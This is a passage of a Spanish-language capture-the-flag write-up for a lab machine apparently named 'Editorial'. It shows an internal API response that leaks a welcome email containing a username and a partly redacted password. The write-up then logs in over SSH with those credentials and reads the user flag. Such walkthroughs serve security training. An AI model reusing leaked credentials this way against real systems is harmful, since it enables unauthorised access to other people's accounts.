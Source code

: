 
Al colocar la respuesta en el navegador, descarga otro archivo json, al momento de leerlo se puede ver un mensaje con credenciales de algun usuario.
~~~bash
at a8e9f9eb-b9aa-43f3-8147-231b5ecc2000 | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev<SNIP>API!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                             
}
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Al poder probar el ingreso por ssh empleando dichas credenciales, se puede ver que son validas y la user flag se encuentra en ese lugar.
~~~bash
ssh dev@10.10.11.20    
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Oct 20 07:16:24 PM UTC 2025

  System load:           0.08
  Usage of /:            61.8% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:efbe


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cat user.txt 
~~~